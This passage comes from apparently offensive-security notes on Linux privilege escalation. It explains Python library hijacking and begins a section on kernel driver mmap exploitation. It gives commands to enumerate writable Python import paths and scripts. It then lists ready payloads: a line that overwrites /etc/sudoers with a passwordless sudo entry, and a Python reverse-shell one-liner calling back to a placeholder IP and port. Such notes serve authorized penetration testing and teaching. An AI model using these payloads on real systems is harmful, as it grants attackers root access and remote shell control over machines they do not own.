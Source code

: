 ### Python library hijacking

When importing a library, using `import <LIBRARY_NAME>`, the Python interpreter
will first search in the interpreted script folder for the library and then
cycle through a predefined list of libraries folders.

A Python library hijacking can be leveraged to elevate privileges on the system
whenever the current user has write access either in the Python libraries
import folders or in the directory of a Python script that can (`sudo` and
`suid`) or will (`cron`, `init.d`, etc.) be run with higher privileges.

The following commands can be used to enumerate the Python import libraries
folders and list their access rights:

```bash
python -c 'import sys; print sys.path'
python -c 'import sys; print "\n".join(sys.path)' | xargs ls -ld
```

Potentially exploitable Python scripts should be identified when conducting the
privileges escalation methodology. Additionally, the `find` Linux built-in can
be used to exhaustively list all Python scripts present on the system as well as
folders containing a Python and writable by the current user for further
investigation:

```bash
# List all Python scripts present on the system
find / -name '*.py' | grep -v -e "/usr/lib/python\|/usr/local/lib/python"

# List all folders writable by the current user that contains a Python script
find / -name '*.py' -printf "%h\0"  2>/dev/null | xargs -0 sh -c 'for p; do [ -w "$p" ] && echo "$p"; done' - | sort -u
```

In order to successfully exploit a Python library hijacking, it is recommended
to completely copy the hijacked library, only adding a payload to the existing
library code.
The following payloads can be used:

```bash
# Add current user to the suoders
/bin/echo "<USERNAME>    ALL=(ALL) NOPASSWD:ALL" > /etc/sudoers

# Reverse shell one-liner
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

For more Python reverse shell payloads, refer to the `[General] Shells` note.

### Kernel drivers `mmap` handler exploitation

Traditionally, the standard practice is to build device drivers as kernel
modules loaded to run in the kernel (`Ring 0` on x86 CPUs). While some device
drivers can also run in user land, this approach is usually not preferred,
mainly for performance and access sharing reasons. Although not common, drivers
may also be built statically into the kernel file on disk. Devices drivers are
thus usually running under high privileges and should be considered in the
attack surface for privileges escalation.
